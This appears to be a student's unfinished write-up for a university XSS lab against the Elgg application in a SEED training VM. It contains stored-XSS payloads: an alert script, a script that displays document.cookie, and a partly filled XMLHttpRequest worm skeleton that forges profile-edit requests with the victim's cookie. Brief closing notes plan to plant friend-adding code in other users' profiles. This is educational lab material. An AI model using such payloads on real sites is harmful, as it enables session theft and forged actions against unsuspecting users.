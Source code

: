# CSUS CSC154: XSS Lab  

## Goal  
To fully demonstrate what attackers can do by exploiting XSS vulnerabilities.


## Lab Environment  
In this lab, we need three things, which are already installed in the provided `SEEDUbuntu12.04` VM image: (1) the Firefox web browser, (2) the Apache web server, and (3) the Elgg web application. For the browser, we need to use the LiveHTTPHeaders extension for Firefox to inspect the HTTP requests and responses. The pre-built Ubuntu VM image provided to you has already installed the Firefox web browser with the required extensions.  

The user accounts for Elgg are found below.  

| User          | UserName      | Password     |
| ------------- |:-------------:| ------------:|
| Admin         | admin         | seedelgg     |
| Alice         | alice         | seedalice    |
| Boby          | boby          | seedboby     |
| Charlie       | charlie       | seedcharlie  |
| Samy          | samy          | seedsamy     |



## Lab Tasks  

### Posting a Malicious Message to Display an Alert Window  
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another
user views our profile, the JavaScript program will be executed and an alert window will be displayed. The
following JavaScript program will display an alert window:  

```javascript
<script>alert('xss');</script>
```

To accomplish this, we simply login as Samy, and navigate to edit our profile. As can be seen in Figure 1 below, we've placed our JavaScript payload in the "Brief Descriptoin" portion of Samy's profile.  
![1_1_samy](./writeup/images/1_1_samy.png)  
**Figure 1:** JavaScript alert window payload to demonstrate XSS.  

![1_2_samy](./writeup/images/1_2_samy.png)  
**Figure 2:** JavaScript alert window fires when Samy's profile is visited.  


### Posting a Malicious Message to Display Cookies
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another user views our profile, the user's cookies will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task, more specifically `document.cookie` as such: 
```javascript
<script>alert(document.cookie);</script>
```

To accomplish this, we repeat the previous task, but replace the `'xss'` string, with `document.cookie`.  
![2_1_samy](./writeup/images/2_1_samy.png)  
**Figure 3:** JavaScript alert window payload to display user's cookie for the site.  

![2_2_samy](./writeup/images/2_2_samy.png)  
**Figure 4:** JavaScript alert window displays our Elgg cookie when visiting Samy's profile.




### Writing an XSS Worm  
In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy Worm). First, we will write an XSS worm that does not self-propagate; in the next task, we will make it self-propagating. In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim's browser, without the intervention of the attacker. The objective of the attack is to modify the victim's profile and add Samy as a friend to the victim. 

To accomplish this we've developed the following JavaScript code.

```javascript
<script>
var Ajax=null;
// Construct the header information for the HTTP request
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
// Construct the content. The format of the content can be learned
// from LiveHTTPHeaders.
var content="name=..&description=...&guid="; // You need to fill in the details.
// Send the HTTP POST request.
Ajax.send(content);
</script>
```



### Task 6: Writing a Self-Propagating XSS Worm  

### Task 7: Countermeasures  















Login as samy

email: samy
password: seedsamy

place xss code in profile

```html
<script>alert('xss');</script>
```


do the cookie thing



login as charlie and watch the http headers for adding someone as a friend.

do that shit in javascript and then embed the code in someone elses profile after it done.

